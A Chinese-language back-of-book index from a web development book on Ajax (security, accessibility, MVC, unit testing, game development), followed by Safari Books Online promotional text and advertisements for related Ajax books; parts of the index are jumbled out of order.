Section 508（美国康复法案），51-53

安全性，244

- CSRF（跨站请求伪造）
  - 检查引用来源，259-261
  - 示例，258-259
  - 次要、随机令牌，262-265
  - 提交附加头，261-262
- 游戏，299
  - 服务器端逻辑，302-304
  - 验证，300-301
- HTTPS，244
  - 明文 HTTP 安全问题，245-246
  - 性能损失，247
- JSON，267-269
- 服务器，266-269
- SQL 注入，247-248
  - 过滤，249-251
  - 魔术引号，248-249
  - 预处理语句，251-252
- 用户授权，265-266
- XSS（跨站脚本）
  - 用于标记的转义，252-254
  - 用于来自 JavaScript 的标记的转义，255-256
  - 用于 URL 的转义，257-258

@see 标签，287

select() 函数，34-36、217

语义提取器，111

语义化标记的优势

- 无障碍性，30-31、47
- 易用性，32
- 解析，34-37
- 可读性和可维护性，33-34

send() 函数，80-81

sendHeaders() 函数，234、240

sendSnapshot() 函数，312

服务器端架构，208

- 工厂模式，237、240-241
- 为多个接口设计应用程序，208-211
- MVC (模型-视图-控制器) 模式，212
  - DBO 类，212-215、218-219
  - 嵌套控制器，222-231
  - 渲染引擎，232-234
  - Session 类，219-221
  - 模板，234-237
  - User 类，221-222

服务器端逻辑，302-304

服务器端脚本，8

服务器

- Apache 网络服务器，8
- MySQL 数据库服务器，8
- 安全性，266-269

Session 类，219-221

会话 ID 令牌，登录时重新生成，246

set() 函数，209-210、213、220

setAssoc() 函数，214

setCache() 函数，164、167-169、280

setContext() 函数，232

setElementText() 函数，54、256

setTemplate() 函数，233

setTemplatesDirName() 函数，233


**setUp()** 函数，137

canvas，305-307，310

**setVariable()** 函数，233

标题，48

**sha1()** 函数，209

event-source，315-317

**shmop**（共享内存操作扩展），164-166

marquee，12

shmopCache 类，164

@param，280

ShrinkSafe，159

q，48

SOAP，154

@require，286

Spidermonkey，3

@return，280

SQL 注入，247-248

@see，287

table，48

过滤，249-251

**tearDown()** 函数，137

魔法引号，248-249

**模板**，234-237

预处理语句，251-252

工厂模式，237，240-241

**stateChanged()** 函数，78-79，172-174

用户注册页面模板，234-236

**语句**

**testCustomEvent()** 函数，133

EXPLAIN，150-152

TestDispatcher 类，135，136

预处理语句，251-252

**testEventDispatcher()** 函数，138-139

存储密码，248

单元测试，132-133

流式响应，310-315

断言，134-135

代码风格指南，295-296

模拟对象，140-143

样式表。*参见* CSS（层叠样式表）

测试示例，137-139

submit() 函数，99

测试设置，135-137

提交额外的请求头，261，262

测试套件，143-144

suite() 函数，144

**测试套件（单元测试）**，143-144

syncFromUI() 函数，97

文本，替代文本，45

syncToUI() 函数，98

第三范式，148

## T

Throbber() 函数，18

### 表格

Throbber 类，18-20

无障碍访问性，48

### 加载指示器

+   U

理解 Ajax，8，330

Unicode，JavaScript 支持，267

美国康复法案

-   第 508 条，51-53

单元测试，132-133

-   断言，134-135
-   模拟对象，140-143
-   测试示例，137-139
-   测试设置，135-137
-   测试套件，143-144

Universe() 函数，294

宇宙冲突，298

-   使用 canvas 标签进行双缓冲，305-307，310
-   event-source HTML5 元素，315-317
-   帧率，307
-   预测性动画，317-320
-   服务器端逻辑，302-304
-   流式响应，310-315
-   验证，300-301

update() 函数，215

updateContent() 函数，175-177

updateUniverse() 函数，314，317

URL 编码格式，4

urlEncodeObject() 函数，81，128-130，257-258

URLs，转义，257-258

可用性，12

-   CSS（层叠样式表），37，40-41
-   指示器
    -   重要性，17
    -   内联消息，22-30
    -   进度指示器，20-22
    -   加载指示器，17-20
-   JavaScript，37，40-41
-   语义化标记的优势
    -   无障碍访问性，30-31
    -   易于使用，32
    -   解析，34-37
    -   可读性和可维护性，33-34
-   用户期望，16-17
-   用户注册界面，14-15
-   何时使用 Ajax，12-15

可用性，重要性，322-323

useClass() 函数，190

User 类，221-222

UserProfile 对象，89-92

用户

-   授权，265-266
-   期望，16-17
-   对设计的重要性，322-323
-   注册：用户注册页面模板，234-236
-   用户注册界面，14-15
-   有残疾的用户。参见 无障碍访问性

+   V

Valgrind 套件，182

validateHeader() 函数，226

validatePost() 函数，226

validateToken() 函数，227

验证，108-109

-   CSS 验证器，110-111
-   游戏，300-301
-   标记验证器，109-110
-   屏幕阅读器支持，55-56
-   语义提取器，111

变量，$password_hash，248

Venkman，120-122

View 类，237，240

viewDeleted() 函数，103

viewDisplayed() 函数，103

### 视图（MVC 模式）

渲染引擎，232-234

职责，92-93

示例 XHTML 页面，93-94

模板，234-237

viewSaved() 函数，103

## W

W3C（万维网联盟），330

-   ARIA（无障碍富互联网应用），63-65
-   QA 工具箱，109

WCAG（Web 内容无障碍指南）

-   优先级 1 检查点，45-46
-   优先级 2 检查点，47-50
-   优先级 3 检查点，50-51

wakeUp() 函数，68

Watcher() 函数，75

### WCAG（Web 内容无障碍指南），44-45

-   优先级 1 检查点，45-46
-   优先级 2 检查点，47-50
-   优先级 3 检查点，50-51

### Web 无障碍工具栏（Opera），122-123

### Web 应用程序

无障碍访问性

-   易于定位的控件，62-63
-   事件监听器，56-58
-   高对比度设计，59-60
-   屏幕阅读器，53-56
-   *美国康复法案第 508 条，51-53*
-   WAI-ARIA（无障碍富互联网应用），63-65

WCAG（Web 内容无障碍指南），44-51

可缩放界面，60-62

为多接口设计，208-211

文档

-   *好处*，272-275
-   *编码标准*，289-293
-   *JSDoc*，283-288
-   *phpDocumentor*，275-283
-   *编程指南*，293-295
-   *代码风格指南*，295-296

游戏开发，298

-   *使用 canvas 标签进行双缓冲*，305-307，310
-   *event-source HTML5 元素*，315-317
-   *预测性动画*，317-320
-   *服务器端逻辑*，302-304
-   *流式响应*，310-315
-   *验证*，300-301

JSDoc，283-288

phpDocumentor，275-283

可扩展性

-   *延迟加载*，198-199
-   *内存使用*，191-194
-   *模块化*，195-198
-   *处理器使用*，188-191

### Web 内容无障碍指南。参见 WCAG

### Web 开发者扩展（Firefox），117-118

### Web 开发者工具栏和菜单（Opera），122

### Web 服务器，Apache，8

### 网站。另请参见 Web 应用程序

-   craigslist.org，6
-   推荐网站，330-331

### whatDoYouGetWhenYouMultiplySixByNine() 函数，135-136，291-292

WHATWG

-   event-source HTML5 元素，315-317
-   网站，304

通配符，**，339

WinCacheGrind，183-185

万维网联盟。参见 W3C

Wormhole 类，310-312，316

XSS（跨站脚本）

-   标记转义，252-254
-   从 JavaScript 进行标记转义，255-256
-   URL 转义，257-258

Zakas, Nicholas C.，330

可缩放界面，60-62

## X-Y-Z

Xdebug，182-185

XHTML，9

-   使用视图（MVC）管理，93-94
-   语义化标记的优势，30
    -   无障碍访问性，30-31
    -   易于使用，32
    -   解析，34-37
    -   可读性和可维护性，33-34
-   标签
    -   abbr，50
    -   acronym，50
    -   canvas，305-310
    -   q，48
    -   table，48

XHTMLRenderingEngine 类，240-241

XML（可扩展标记语言），4-5，155

XMLHttpRequest 对象，76-83

-   abort() 函数，79
-   AjaxEvent 类，76
-   AjaxRequest 类，77-78
-   AjaxRequestManager 类，82-83
-   EventDispatcher 类，78
-   模拟对象，140-143
-   open() 函数，79-80
-   send() 函数，80-81
-   stateChanged() 函数，78-79
-   urlEncodeObject() 函数，81

# # 本书支持 Safari 在线服务

**包含 45 天免费在线版访问权限**

您喜爱的技术书籍封面上的 Safari® Enabled 图标表示该书可通过 Safari 图书架获得。购买本书，即可免费在线访问本书的在线版 45 天。

Safari 图书架是一个电子参考库，让您可以轻松搜索数千本技术书籍、查找代码示例、下载章节，并在任何时间、任何地点访问技术信息。

**获取本书 45 天 Safari Enabled 访问权限：**

-   前往 **http://www.prenhallprofessional.com/safarienabled**
-   填写简短的注册表单
-   输入本书前言“版权”页上找到的优惠券代码

如果您在 Safari 图书架注册或访问在线版时遇到困难，请发送电子邮件至 customer-service@safaribooksonline.com。

# # 相关 Ajax 图书

### 企业级 Ajax

构建高性能 Web 应用程序的策略

作者：David Johnson, Alexei White, 和 Andre Charland

> 使用 Ajax 构建可靠、可扩展的企业级 Web 应用程序

本书面向企业开发人员、架构师和用户界面专家，解释了为何 Ajax 在大规模开发中前景广阔。接着，他们系统地介绍了当今关键的 Ajax 技术和组件。

从安全性到可扩展性再到项目风险，这是唯一一本涵盖 Ajax 开发人员在企业中面临的所有问题的书籍。无论您是迁移旧的 HTML 界面还是从头构建新应用，都会发现它不可或缺。

0-13-224206-0 ©2008 $39.99 496 页

### 面向 Web 应用程序开发者的 Ajax

作者：Kris Hadlock

> 可复用的 Ajax 驱动应用程序组件与模式

《面向 Web 应用程序开发者的 Ajax》提供了 Web 开发者将 Web 应用提升到新水平所需的 Ajax 深入实践知识。本书展示了如何从面向对象的角度创建 Ajax 驱动的 Web 应用程序，并讨论了多种实用的 Ajax 设计模式。

这本详细的指南涵盖了通过自定义 Ajax 引擎使用 PHP 5 连接到 MySQL 数据库的创建，并展示了如何使用 CSS、JavaScript 和 XHTML 优雅地格式化响应，同时确保数据安全。它还涵盖了在应用程序中使用四种自定义 Ajax 支持组件，以及如何从头创建每个组件。

0-672-32912-3 ©2007 $34.99 228 页

### Ajax 安全

（2007 年 12 月上市）

作者：Billy Hoffman 和 Bryan Sullivan

> 面向希望防范 Ajax 相关安全漏洞的专业人士的实用入门手册

Ajax 有潜力彻底改变我们所知的互联网，但随之而来的是同样危险的新型安全威胁。《Ajax 安全》揭示了 Ajax 框架固有的安全漏洞雷区，并为开发者提供了一本安全导航并创建安全应用程序的指南。

每章都以一个关于 Ajax 安全的迷思开始，然后予以揭穿。全书中，您将看到实际被利用的 Ajax 漏洞案例研究，以阐明关键点。作者还针对主要的 Web 编程语言（.NET、Java 和 PHP）以及流行的新语言 Ruby on Rails，提供了保护 Ajax 应用程序安全的具体建议。

0-321-49193-9 ©2008 400 页

访问我们的网站以获取更多关于这些书籍的信息并阅读示例章节：www.informit.com
